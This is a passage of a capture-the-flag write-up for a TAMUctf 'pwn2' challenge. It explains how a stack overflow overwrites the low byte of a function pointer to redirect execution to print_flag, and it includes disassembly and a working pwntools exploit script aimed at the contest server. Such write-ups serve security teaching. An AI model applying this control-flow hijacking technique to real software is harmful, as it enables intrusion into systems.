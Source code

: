 By overflowing `lcl_func_name` we can override the LSB of `func_ptr` which is directly under it in the stack. However, if we take a look at the decompiled C code, it won't matter since `func_ptr` is set after the `strncpy`:

```c
  strncpy(lcl_func_name,func_name,0x1f);
  res = strcmp(lcl_func_name,"one");
  func_ptr = two;
```

Going back to the assembly, though, we see that this isn't really the case (another reminder that decompilation is helpful but can't be relied on). `func_ptr` gets its default value here:

```assembly
0x00000791      8d83f5e6ffff   lea eax, [ebx - 0x190b] ; two()
0x00000797      8945f4         mov dword [func_ptr], eax
```

And only a few lines later, `strncpy` is called:

```assembly
0x000007a6      e8a5fdffff     call sym.imp.strncpy        ; char 
```

The last thing to decide is what we override `func_ptr` with.

```
0x000006ad    1 43           sym.two
0x000006d8    4 124          sym.print_flag
```

Since `two` and `print_flag` are defined very close to each other, and the only difference between them is luckily the LSB, we can use this to perform the flow hijacking and jump to `print_flag` instead of `two`.

The following script performs the exploit:

```python
import os
from pwn import *

LOCAL_PATH = "./pwn2"
REMOTE_PATH = ("pwn.tamuctf.com", 4322)

def get_process(is_remote):
    if is_remote:
        p = remote(*REMOTE_PATH)
    else:
        p = process(LOCAL_PATH)
    
    return p

def send_payload(proc, payload):
    proc.sendlineafter("Which function would you like to call?", payload)


e = ELF(LOCAL_PATH)
overflow_offset = 0x2a - 0xc #lcl_func_name - func_ptr
log.info("overflow offset: {}".format(overflow_offset))
print_flag_addr = e.symbols["print_flag"]
log.info("print_flag() address: {}".format(hex(print_flag_addr)))
payload = fit({overflow_offset: p8(print_flag_addr & 0xFF)}, filler = 'A')
p = get_process(args.REMOTE)
log.info("Sending payload: {}".format(enhex(payload)))
send_payload(p, payload)
print p.recvall()
```
